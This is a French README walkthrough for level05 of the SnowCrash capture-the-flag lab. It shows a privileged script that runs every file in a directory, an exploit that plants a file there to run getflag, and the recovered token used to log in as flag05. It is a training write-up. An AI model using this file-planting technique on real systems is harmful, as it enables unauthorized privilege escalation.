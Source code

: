# README - Exploitation du script openarenaserver (level05)

## Étapes suivies pour obtenir le Flag05

### 1. Identification du binaire

Le fichier `/usr/sbin/openarenaserver` est un script exécutable appartenant à `flag05` :

```bash
level05@SnowCrash:~$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```

L'analyse du script montre qu'il exécute des fichiers dans le répertoire `/opt/openarenaserver/` :

```bash
#!/bin/sh
for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

### 2. Exploitation de l'exécution automatique

Le script exécute automatiquement tous les fichiers dans `/opt/openarenaserver/`. Nous pouvons créer un fichier malveillant pour exécuter `getflag` et stocker le flag dans un fichier temporaire.

#### a. Création d'un fichier malveillant

```bash
echo "/bin/sh -c 'getflag > /tmp/flag_output'" > /opt/openarenaserver/exploit.sh
chmod +x /opt/openarenaserver/exploit.sh
```

#### b. Attente de l'exécution

Le fichier est automatiquement exécuté par le script `openarenaserver`, puis supprimé.

### 3. Récupération du flag

Vérifiez si le flag est écrit dans `/tmp/flag_output` :

```bash
cat /tmp/flag_output
```

### 4. Résultat

```bash
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

### 5. Passage à l'utilisateur suivant

Utilisez le flag pour vous connecter à l'utilisateur `flag05` :

```bash
level05@SnowCrash:~$ su flag05
Password: viuaaale9huek52boumoomioc
flag05@SnowCrash:~$ getflag
```
